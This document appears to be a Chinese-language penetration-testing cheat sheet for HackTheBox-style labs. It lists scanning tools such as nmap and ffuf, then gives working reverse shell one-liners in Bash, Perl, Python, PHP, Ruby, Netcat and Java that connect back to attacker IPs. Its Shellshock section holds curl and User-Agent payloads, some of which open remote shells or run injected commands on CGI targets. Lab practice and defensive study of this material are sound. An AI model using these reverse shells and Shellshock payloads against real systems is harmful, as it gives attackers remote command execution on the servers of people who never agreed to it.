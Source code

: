
### 掃描目錄
+ [dirsearch](https://github.com/maurosoria/dirsearch)
+ [gobuster](https://github.com/OJ/gobuster)
+ [dirb](https://github.com/v0re/dirb)
+ [ffuf](https://github.com/ffuf/ffuf)
+ [feroxbuster](https://github.com/epi052/feroxbuster)
>feroxbuster -u HTBIP -x php,html -f -n 

### 網路掃描工具
+ [nmap](https://nmap.org/)
>nmap -sV -sC -A -T4 HTBIP
+ [RustScan](https://github.com/RustScan/RustScan)
+ [pnscan](https://github.com/ptrrkssn/pnscan)

### [Reverse Shell Cheat Sheet](https://pentestmonkey.net/)
+ Bash
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

+ [PERL](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell)
` perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' `

+ Python
` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' `

+ [PHP](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
` php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' `

+ Ruby
` ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' `

+ [Netcat](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498)
` nc -e /bin/sh 10.0.0.1 1234 `
>即使它有多個版本的 netcat，但其中一些不支持 -e 選項。
>如果你安裝了錯誤版本的 netcat，仍然可以像這樣恢復你的反向 shell：
` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f `

+ Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

+ Perl 
`perl -e 'use Socket;$i="[AttackerIP]";$p=[AttackerPort];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

+ PHP 
`php -r '$sock=fsockopen("[attackerIP]",[attackerPort]);exec("/bin/sh -i <&3 >&3 2>&3");'`


### 攻擊技巧
+ [CGI-bin exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

```
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'

# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi

# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh

# Reverse shell using curl 
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi

```

+ [Nmap Scripting Engine (NSE)](https://nmap.org/book/nse.html)

```
#列出可用腳本
locate nse

#使用默認腳本集的簡單腳本掃描。
nmap -sC example.com

#沒有端口掃描的腳本掃描；只有主機腳本才有資格運行。
nmap -sn -sC example.com

#沒有主機發現或端口掃描的腳本掃描。假定所有主機都已啟動，並且只有主機腳本才有資格運行。
nmap -Pn -sn -sC example.com

#使用腳本跟踪執行特定腳本
nmap --script smb-os-discovery --script-trace example.com

#運行帶有腳本參數的單個腳本。
nmap --script snmp-sysdescr --script-args creds.snmp=admin example.com

#執行 mycustomscripts目錄中的所有腳本以及safe類別中的所有腳本。
nmap --script mycustomscripts,safe example.com

```

+ ShellShock==Bashdoor 

```
# Bashdoor POC
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

# namp NSE ShellShock
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>

# burpsuit can testing, need to replace User-Agent content attempt vulnerability
User-Agent: () { :;}; echo; /usr/bin/id
User-Agent: () { :;}; echo; /bin/ping -c 1 10.129.108.18
User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo; /bin/ping -c 2 10.10.14.15")'; /bin/ping -c 1 10.10.14.15
User-Agent: () { :;}; echo; /usr/bin/python3 -c 'import os; os.system("/bin/ping -c 1 10.10.14.15")'; /usr/bin/id
```

